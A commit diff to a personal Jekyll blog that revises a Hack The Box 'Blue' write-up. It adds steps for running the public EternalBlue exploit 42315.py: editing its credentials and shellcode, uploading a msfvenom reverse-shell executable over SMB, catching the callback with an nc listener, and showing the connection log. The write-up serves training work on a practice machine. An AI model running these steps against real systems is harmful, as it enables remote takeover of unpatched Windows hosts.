

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-18-blue.md, in a window 1280 px wide and 1400 px high, scrolled down 2229 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-18-blue.md
+++ b/_posts/2020-07-18-blue.md
@@ -14,13 +14,11 @@ description: "Blue write-up"
 
 ------
 
-nmap
-
-msfvenom
-
-nc
-
-
+- nmap
+- msfvenom
+- python
+- nc
+- searchsploit
 
 ## Reconnaissance
 
@@ -115,13 +113,16 @@ There's a Metasploit module, but let's not use it. I have to do it manually !
 
 ------
 
-I'm going to use this exploit : 42315.py
+I'm going to use this exploit "windows/remote/42315.py", download it, like so :
 
 ```bash
 searchsploit -m windows/remote/42315.py
 ```
 
+Reading the code we need to modify it a little bit.
 
+- Change the username/password
+- Change the shellcode, so that the code use mine
 
 Generate the reverse shell with msfvenom :
 
@@ -133,10 +134,36 @@ Final size of exe file: 73802 bytes
 Saved as: reverse_shell.exe
 ```
 
+As username I'll use "guest" and no password.
 
+Now modify the python code :
 
 ```python
-nc -vlp 1234
+USERNAME = 'guest'
+PASSWORD = ''
+
+[...]
+
+smb_send_file(smbConn, "/home/liodeus/Downloads/hackthebox/blue/shellcode.exe", 'C', '/shellcode.exe')
+service_exec(conn, r'cmd /c c:\\shellcode.exe')
+```
+
+Before executing the exploit, open a nc listener.
+
+```bash
+nc -lvp 1234
+```
+
+Then launch the exploit.
+
+```python
+python 42315.py 10.10.10.40
+```
+
+Go to the nc listener and voila !
+
+```python
+nc -lvp 1234
 listening on [any] 1234 ...
 10.10.10.40: inverse host lookup failed: Unknown host
 connect to [10.10.14.4] from (UNKNOWN) [10.10.10.40] 49158
````
